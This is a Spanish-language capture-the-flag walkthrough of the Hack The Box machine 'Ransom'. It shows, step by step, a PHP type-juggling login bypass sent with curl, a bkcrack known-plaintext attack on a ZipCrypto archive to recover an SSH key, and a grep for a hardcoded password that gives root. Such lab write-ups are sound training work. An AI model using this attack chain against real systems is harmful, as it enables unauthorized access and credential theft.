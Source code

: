 10.10.11.153 - Ransom
---------------------

# Part 1: Reconocimiento inicial 

Puertos abiertos: 22(ssh), 80(http), 

```console
└─$ whatweb http://10.10.11.153
[302 Found] Apache[2.4.41], Cookies[XSRF-TOKEN,laravel_session] -> [Redirecting to http://10.10.11.153/login]
http://10.10.11.153/login [200 OK] Apache[2.4.41], Bootstrap, Cookies[XSRF-TOKEN,laravel_session], JQuery[1.9.1], Laravel, PasswordField[password], Script[text/javascript]
```

Me sale un campo para meter un login, me piden solo una contraseña:  
```GET http://10.10.11.153/api/login?password=``` Si pones una mala "Invalid Password"

```console
└─$ wfuzz -c -t 200 -w /usr/share/wordlists/rockyou.txt  "http://10.10.11.153/api/login?password=FUZZ"
000002150:   429        36 L     125 W      6625 Ch     "amazing"
```
En seguida el fuzzing nos cancelan

```console
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.153/FUZZ
000000040:   200        172 L    372 W      6104 Ch     "login"
000000052:   500        217 L    17833 W    599984 Ch   "register"
000000537:   301        9 L      28 W       310 Ch      "css"
000000940:   301        9 L      28 W       309 Ch      "js"
└─$ wfuzz -c --hc=400 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.10.10.11.153" -u http://10.10.11.153/ -t 100
```
----------------------------
# Part 2: PHP - Type Juggling

El panel de login es 10.10.11.154/login, pero la peticion se pasa a /api/login. Las apis son una capa
mas profunda de la web y que está oculta al usuario ya que están pensadas para los programas y la parte más 
técnica, al ser algo oculto no suele estar tan protegido.

En algunos casos un /login puede estar protegido antes ataques como SQLi o Type Juggling mientras que la api no.

En este caso pasa eso, teneos laravel, que trabaja con PHP, es vulnerable a php Type juggling:
```php
php > if ("contraseña"=="contraseña") { echo "Correcto"; } else { echo "Incorrecto";}
Correcto

Se puede saltar con el valor booleano "true":
php > if ("contraseña"==true) { echo "Correcto"; } else { echo "Incorrecto";}
Correcto

# Una manera de securizar esto es con un triple "="
php > if ("cucuxii"===true) { echo "Correcto"; } else { echo "Incorrecto";}
Incorrecto
```
Si ponemos en el navegador "true" no nos lo toma de manera correcta. Si miramos por el burpsuite, vemos que
la peticion es a ```GET a /api/login?password="true"```
Lo primero esque ya es un poco raro mandar una contraseña con GET (datos en la url).
SI cambiamos a POST dice que no admite el metodo.

En cambio si mandamos un GET como si fuera un post o sea ```POST a /api/login  data=password="true"``` nos lo 
pilla pero nos dice que faltan el campo contraseña. Cuando mandas algo pero se queja de que no los has mandado es
porque no es el formato que quiere, por lo que hay que mandarlo como json:

La peticion sería asi (vemos que true se manda no como string sino como booleando (la diferencia son las ""))

Si no disponemos de un entorno de pentesting avanzado con programas como burpsuite, se puede hacer con curl:

```console
└─$ curl -i http://10.10.11.153
# Para pillar las cookies

└─$ curl -i -s -k -L -X GET -H 'Content-Type: application/json'  \
--cookie 'XSRF-TOKEN=eyJpdiI6Img4MWhKVFRreV...; laravel_session=eyJpdiI6IlZCdXcz...' \
--data-binary $'{\"password\":true}' http://10.10.11.153/api/login
```
---------------------
# Parte 3: Crackeando un Zip

Una vez hecho esto, podemos visitar 10.10.11.153/ sin que nos redirija a login.

Podemos bajarnos un zip pero está protegido con contraseña:
```console
└─$ unzip uploaded-file-3422.zip
Archive:  uploaded-file-3422.zip
[uploaded-file-3422.zip] .bash_logout password:
```
Jhon the ripper tiene herramientas para romper muchos tipos de archivos:
```console
└─$ locate 2john | grep "zip"
/usr/sbin/zip2john
└─$ zip2john uploaded-file-3422.zip > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
# No hay suerte
```

```console
└─$ 7z l uploaded-file-3422.zip
# Vemos que es el directorio de root pero comprimido, tenemos entre otros una id_rsa

└─$ 7z l uploaded-file-3422.zip -slt 
# Información tecnica dice que el metodo de encriptacion es ZipCrypto Deflate
```
Si buscas ```cracking zipcrypto deflate``` encontrarás una herramienta llamada [bkrack](https://github.com/kimci86/bkcrack)

La herramienta bcrack nos pide que le demos un archivo que se parezca mucho a uno de los del zip encriptado.
En concreto sería ```/home/cucuxii/.bash_logout```

```console
└─$ git clone https://github.com/kimci86/bkcrack
└─$ cd bkcrack
└─$ cmake -S . -B build -DCMAKE_INSTALL_PREFIX=install
└─$ cmake --build build --config Release
└─$ cmake --build build --config Release --target install

└─$ cp ~/.bash_logout ./bash_logout
└─$ zip comprimido.zip bash_logout
└─$ cp ~/Maquinas/htb/Ransom/uploaded-file-3422.zip .
└─$ ./bkcrack -C uploaded-file-3422.zip -c ".bash_logout" -P "comprimido.zip" -p "bash_logout"
7b549874 ebc25ec5 7e465e18

└─$ ./bkcrack -C ./uploaded-file-3422.zip -k 7b549874 ebc25ec5 7e465e18 -U nuevo.zip contraseña
└─$ unzip nuevo.zip

└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa root@10.10.11.153
root@10.10.11.153's password:

└─$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EA...13N6/M= htb@ransom
└─$ ssh -i id_rsa htb@10.10.11.153
```
------------------------------
# Parte 4: Escalando privilegios

Entramos con un usaurio de bajos privilegios:
- Grupos: groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
- Procesos: /usr/lib/udisks2/udisksd
- Existe el archivo de configuracion de apache: /etc/apache2/sites-enabled/000-default.conf

Al ser apache el archivo de configuracion 000-default:
```console
htb@ransom:/tmp$ cat /etc/apache2/sites-enabled/000-default.conf
<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	DocumentRoot /srv/prod/public
htb@ransom:/srv/prod$ ls public/
# Codigo fuente:
css  favicon.ico  fonts  index.php  js  robots.txt  scss  uploaded-file-3422.zip  user.txt
htb@ransom:/srv/prod$ ls ../
# Mas codigo fuente del server
README.md  artisan    composer.json  config    package.json  public     routes      storage  vendor
app        bootstrap  composer.lock  database  phpunit.xml   resources  server.php  tests    webpack.mix.js
htb@ransom:/srv/prod$ grep -riE "password" 2>/dev/null
# Demasiadas cosas, probaremos a buscar de carpeta en carpeta
htb@ransom:/srv/prod/app$ grep -riE "password" 2>/dev/null
Http/Controllers/AuthController.php:        if ($request->get('password') == "UHC-March-Global-PW!") {

htb@ransom:/srv/prod/app$ su root
Password: UHC-March-Global-PW!
root@ransom:/srv/prod/app# whoami
root
```

---------------------------
# Extra: Analizando bckrack

Mirando la documentación del repo pone que:
- Está utilizando el ataque "Biham and Kocher's"
- Los zips se suelen encriptar con el cifrado simetrico (una sola llave) basado en contraseña o "PKWARE/Zipcrypto"

Zipcrypto genera una cadena de bits random, en plan "23$(¡_.d" que se XORrea con el contenido de una entrada en
texto plano para crear un texto cifrado

La operacion XOR lo que hace es pasar todos los caracteres a binario y los compara de tal manera que si los bits son iguales da 0 y si son distintos 1:
```
Cipher ->    0110101        Cipher    ->  0110101         Decipher  ->  1101001
key    ->    1011100        Decipher  ->  1101001         Key       ->  1011100
             -------                      --------                      --------
Decipher ->  1101001        Key       ->  1011100         Cipher    ->  0110101 
```
El texto cifrado de 32 bits se inicia con la contraseña y se va descrifrando con el "Biham and Kocher's"
Este requiere que tengamos un texto de mas de 12 bytes que sea igual que el cifrado para sacar el patron de 
cifrado que sirve para romperlo todo.




